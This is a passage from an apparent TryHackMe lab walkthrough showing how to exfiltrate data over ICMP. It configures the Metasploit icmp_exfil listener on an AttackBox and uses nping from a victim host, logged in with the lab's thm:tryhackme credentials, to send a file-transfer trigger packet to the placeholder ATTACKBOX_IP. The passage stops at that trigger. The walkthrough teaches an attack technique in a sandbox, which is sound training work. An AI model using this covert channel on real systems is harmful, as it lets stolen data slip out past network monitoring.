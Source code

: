 Now from the **AttackBox**, let's set up the Metasploit framework by selecting the icmp_exfil module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the BPF_FILTER option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows,

Set the BPF_FILTER in MSF   

```markup
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP
```

We also need to select which network interface to listen to, eth0. Finally, executes run to start the module.

Set the interface in MSF  

```markup
msf5 auxiliary(server/icmp_exfil) > set INTERFACE eth0
INTERFACE => eth0
msf5 auxiliary(server/icmp_exfil) > run
    
[*] ICMP Listener started on eth0 (ATTACKBOX_IP). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
```

We prepared icmp.thm.com as a victim machine to complete the ICMP task with the required tools. From the JumpBox, log in to the icmp.thm.com using thm:tryhackme credentials.

We have preinstalled the [nping](https://nmap.org/nping/) tool, an open-source tool for network packet generation, response analysis, and response time measurement. The NPING tool is part of the NMAP suite tools.

First, we will send the BOF trigger from the ICMP machine so that the Metasploit framework starts writing to the disk. 

Sending the Trigger Value from the Victim  

```markup
thm@jump-box$ ssh thm@icmp.thm.com
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0369s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=7785 seq=1] IP [ttl=64 id=40595 iplen=39 ]
RCVD (0.0376s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=63 id=12656 iplen=39 ]
RCVD (0.0755s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=7785 seq=1] IP [ttl=31 id=60759 iplen=32 ]
    
Max rtt: 38.577ms | Min rtt: 0.636ms | Avg rtt: 19.606ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
```

We sent one ICMP packet using the nping command with --data-string argument. We specify the trigger value with the file name BOFfile.txt, set by default in the Metasploit framework. This could be changed from Metasploit if needed!
